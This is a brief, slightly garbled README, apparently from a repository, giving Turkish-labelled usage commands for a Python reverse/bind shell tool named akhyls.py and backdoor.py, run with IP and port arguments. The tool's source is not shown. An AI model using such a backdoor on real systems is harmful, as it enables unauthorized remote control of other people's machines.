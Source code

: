 Python Reverse-Bind Shell
Kullanımı:
        >>chmod +x akhyls.py
        
        chmod +x backdoor.py

        >>./akhyls.py -R <PORT> (reverse shell)
&rdsh;
      
      >>./backdoor.py --c <IP> <PORT> (listen mode)
      
